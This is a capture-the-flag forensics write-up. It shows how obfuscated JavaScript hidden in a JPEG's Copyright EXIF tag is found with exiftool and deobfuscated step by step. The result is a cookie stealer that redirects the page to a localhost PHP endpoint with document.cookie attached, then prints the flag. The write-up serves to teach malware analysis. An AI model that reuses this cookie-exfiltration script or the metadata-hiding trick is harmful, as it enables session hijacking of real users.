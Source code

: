 # Change

## Task

One of Senork's employees opened a link in a phishing e-mail. After this, strange things happened. But this is likely related to the attached image. I have to check it.

File: change.jpg

Tags: forensics

## Solution

Analysing the file with exiftool:

```bash
$ exiftool change.jpg
```

We notice a strange `Copyright` tag containing code which appears to be javascript.

After beautifying it we need to deobfuscate the code.

There is an array containing strings `_0xb30f`:

```javascript
var _0xb30f = ['qep','0k5','app','ati','kro','fu5','tes','+(\x20','\x20+\x20','^([','LPa','uct','001','sys','Wor','s\x20+','+[^','\x20/\x22','7.0',')+)','ret','loc','\x20]+','ked','/12','htt','l1k','{l0','nCT','GyR','thi','log','3dj','\x20\x22/','LeT','Ryt','^\x20]','con','30b','str','c47'];
```

We notice a lot of calls to the function `_0x19ee` which is defined as:

```javascript
var _0x19ee = function(_0x430b89, _0xb30f10) {
    _0x430b89 = _0x430b89 - 0x0; // convert parameter to int
    var _0x19eed7 = _0xb30f[_0x430b89]; // lookup string in array
    return _0x19eed7;
};
```

This function resolves numbers stored as strings with the help of the above array.

We now can start to replace calls to this function with the corresponding entry.

```javascript
document[_0x19ee('0x9') + _0x19ee('0x20') + 'on'] = _0x19ee('0xd') + 'p:/' + _0x19ee('0xc') + _0x19ee('0x6') + '.0.' + '1/0' + _0x19ee('0x0') + '.ph' + 'p?c' + '=' + document['coo' + 'kie'], console[_0x19ee('0x13')](_0x19ee('0x2') + _0x19ee('0xb') + '!'), console[_0x19ee('0x13')](_0x19ee('0x1') + _0x19ee('0x21') + _0x19ee('0x10') + 'F'), console[_0x19ee('0x13')](_0x19ee('0xf') + _0x19ee('0x1e') + _0x19ee('0xe') + _0x19ee('0x1a') + _0x19ee('0x22') + _0x19ee('0x1c') + _0x19ee('0x14') + '5}');
```

which deobfuscates to:

```javascript
document['location'] = "http://127.0.0.1/0001.php?c=" + document['cookie'], console.log('Worked!'), console.log('syskronCTF'), console.log('{l00k5l1k30bfu5c473dj5}');
```
